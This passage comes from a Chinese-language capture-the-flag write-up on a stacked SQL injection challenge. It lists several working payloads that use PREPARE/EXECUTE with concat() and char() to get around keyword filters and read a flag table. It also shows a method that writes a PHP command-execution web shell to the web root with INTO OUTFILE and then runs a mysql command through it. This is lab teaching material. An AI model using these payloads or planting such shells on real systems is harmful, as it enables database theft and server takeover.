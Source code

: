 ```javascript
array(1) {
  [0]=>
  string(42) "flag{52aec6f8-042b-4208-9e4e-7388542b3a88}"
}

```

**payload2：**使用变量

```sql
1';SET @sql=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE jwt from @sql;EXECUTE jwt;#
```

```javascript
array(1) {
  [0]=>
  string(42) "flag{52aec6f8-042b-4208-9e4e-7388542b3a88}"
}
```

**payload3：**只是用contact(),不使用char()

```sql
1';PREPARE jwt from concat('s','elect', ' * from `1919810931114514` ');EXECUTE jwt;#
```

```javascript
array(1) {
  [0]=>
  string(42) "flag{52aec6f8-042b-4208-9e4e-7388542b3a88}"
}
```

#### 方法三 利用命令执行Getflag

```sql
1';Set @sql=concat("s","elect '<?php @print_r(`$_GET[1]`);?>' into outfile '/var/www/html/1",char(46),"php'");PREPARE sqla from @sql;EXECUTE sqla;
```

 利用`char(46)`<==>`.`从而绕过关键词`.`过滤往 /var/www/html/ 目录里面写入一个 1.php文件 代码就是 

```php
<?php @print_r(`$_GET[1]`);?>
```

> Mysql into outfile语句，可以方便导出表格的数据。同样也可以生成某些文件。因此有些人会利用sql注入生成特定代码的文件，然后执行这些文件。将会造成严重的后果。Mysql into outfile 生成PHP文件 
>
> SELECT 0x3C3F7068702073797374656D28245F524551554553545B636D645D293B3F3E into outfile '/var/www/html/fuck.php'最后会在/var/www/html/路径下， 生成fuck.php文件这里不走寻常路，执行打算利用我们的shell查询flag（账号密码直接读取首页就可以看到）

```sql
/1.php?1=mysql -uroot -proot -e "use supersqli;select flag from \`1919810931114514\`;"
```



[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189)
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入

